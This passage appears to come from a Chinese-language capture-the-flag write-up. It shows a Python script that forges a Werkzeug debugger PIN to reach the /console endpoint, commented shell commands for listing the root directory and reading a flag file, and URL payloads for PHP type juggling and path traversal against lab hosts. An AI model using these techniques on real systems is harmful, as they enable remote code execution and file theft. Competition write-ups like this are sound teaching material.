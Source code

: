 ```python
	if isinstance(bit, str):
		bit = bit.encode("utf-8")
	h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

if num is None:
	h.update(b"pinsalt")
	num = f"{int(h.hexdigest(), 16):09d}"[:9]

if rv is None:
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = "-".join(
				num[x : x + group_size].rjust(group_size, "0")
				for x in range(0, len(num), group_size)
			)
			break
	else:
		rv = num

print(f"PIN: {rv}\nTo {url}/console and paste it.")

# import subprocess
# subprocess.check_output("ls /", shell=True)
# subprocess.check_output("cat /{flag_name}", shell=True)
```


## [教學題] 極之番『漩渦』

solve: 33/165
此題為教學題，可使用分數來買提示，因此解題人數較多。

### description

Are you familiar with these old friends?

Author: Vincent55

http://172.31.210.1:33002

### solution

參考教學文件後，應該大部分都能解出來，這邊就不重複講解，剩下應該就是格式的問題。

教學文件
- https://hackmd.io/@Vincent550102/BJwHYfxKp

exploit:

- stage1
    - /stage1.php?A[]=x&B[]=2
- stage2
    - /stage2_212ad0bdc4777028af057616450f6654.php?A[]=123&B=234
- stage3
    - /stage3_099b3b060154898840f0ebdfb46ec78f.php?page=...\config.php
    - 預設會被註解，請開啟開發人員工具檢視網頁原始碼
- stage4(應該是最多人卡關的，大部分都是不知道如何傳)
